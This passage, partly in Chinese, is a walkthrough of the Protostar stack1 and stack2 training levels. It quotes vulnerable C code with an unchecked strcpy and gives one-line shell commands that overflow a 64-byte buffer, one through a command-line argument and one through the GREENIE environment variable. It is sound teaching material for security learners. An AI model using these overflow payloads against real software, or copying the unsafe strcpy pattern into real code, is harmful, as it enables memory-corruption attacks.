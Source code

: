 传递一个参数，将参数复制到**buffer**中，`覆盖modifies变量`

```shell
./stack1 `python -c "print('A'*64+'dcba')"`
```

---

## Stack2

### About

Stack2 looks at environment variables, and how they can be set.

This level is at /opt/protostar/bin/stack2

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

通过**getenv**获取了环境变量**GREENIE**，然后将**GREENIE**的内容复制到**buffer**中，我们这里通过**export**设置环境变量即可。

linux中**$()** 和 **\`\`**都是用来做命令替换用的。

```shell
export GREENIE=$(python -c "print('A' * 64 + '\x0a\x0d\x0a\x0d')"); ./stack2
```

---